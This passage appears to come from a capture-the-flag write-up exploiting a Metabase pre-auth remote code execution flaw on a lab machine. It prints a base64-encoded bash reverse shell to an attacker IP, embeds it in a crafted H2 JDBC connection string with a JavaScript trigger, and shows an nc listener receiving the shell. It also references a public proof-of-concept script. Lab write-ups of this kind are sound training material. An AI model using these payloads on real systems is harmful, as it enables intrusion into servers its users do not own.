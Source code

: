 It’s not strictly required, but I don’t love the special characters, so I’ll add some spaces to the command string until they are gone:

```

oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```

So my `db` string will be:

```

zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK}|{base64,-d}|{bash,-i}')\n$$--=x

```

#### Send

With `nc` listening on 443, I’ll find a request to `data.analytics.htb` in Burp, and send it to Repeater. It doesn’t matter what it is, as I’m going to completely change it (I just want the target to be set correctly). In the Request pane, I’ll update the `Host` header from `localhost` to `data.analytical.htb`, the `token`, and the `db` string:

![image-20240313195636750](/img/image-20240313195636750.png)

When I send, it hangs for a second, and then at `nc` there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.233 46282
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
b7ed0bb2dd1e:/$ 

```

### Exploit Script

#### Script Analysis

I mentioned above there were many POC scripts available on GitHub. For example, I can grab [this one](https://github.com/Pyr0sec/CVE-2023-38646/blob/main/exploit.py) and save it as a file on my VM.

Taking a quick look at the script, it’s doing the same thing I did above. It takes the URL, token, and the command to run. I don’t know why it doesn’t get the token for me (it would be just one more request and parsing JSON, a couple lines of Python). The script takes the input URL and builds the `validate` endpoint, and the request:
